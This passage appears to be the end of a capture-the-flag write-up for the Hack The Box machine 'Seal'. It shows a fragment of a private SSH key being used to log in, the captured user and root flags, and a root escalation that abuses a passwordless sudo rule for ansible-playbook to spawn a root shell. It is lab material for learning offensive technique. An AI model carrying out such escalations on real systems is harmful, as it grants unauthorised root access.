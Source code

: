     YG6tmwVeTbhkycXMbEVeIsG0a42Yj1ywrq5GyXKYaFr3DnDITcqLbdxIIEdH1vrRjYynVM
    ueX7aq9pIXhcGT6M9CGUJjyEkvOrx+HRD4TKu0lGcO3LVANGPqSfks4r5Ea4LiZ4Q4YnOJ
    u8KqOiDVrwmFJRAAAACWx1aXNAc2VhbAE=
    -----END OPENSSH PRIVATE KEY-----

  [root:/git/htb/seal]# chmod 600 id_rsa-luis
  [root:/git/htb/seal]# ssh luis@seal.htb -i id_rsa-luis
    luis@seal:~$ id && cat user.txt
      uid=1000(luis) gid=1000(luis) groups=1000(luis)
      b05995690f877efeb55302e8f09f296b


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Always try 'sudo -l' for a quick root.

  luis@seal:~$ sudo -l
    Matching Defaults entries for luis on seal:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User luis may run the following commands on seal:
        (ALL) NOPASSWD: /usr/bin/ansible-playbook *

Looking on gtfobins we find that ansible-playbook are at the very top. Follow the steps to grab root.txt.

  luis@seal:~$ TF=$(mktemp)
  luis@seal:~$ echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' >$TF
  luis@seal:~$ sudo /usr/bin/ansible-playbook $TF
    [WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'

    PLAY [localhost] ***********************************************************************************************************************

    TASK [Gathering Facts] *****************************************************************************************************************
    ok: [localhost]

    TASK [shell] ***************************************************************************************************************************
    # id && cat /root/root.txt
      uid=0(root) gid=0(root) groups=0(root)
      85239d7892c9f975905d49166e123084
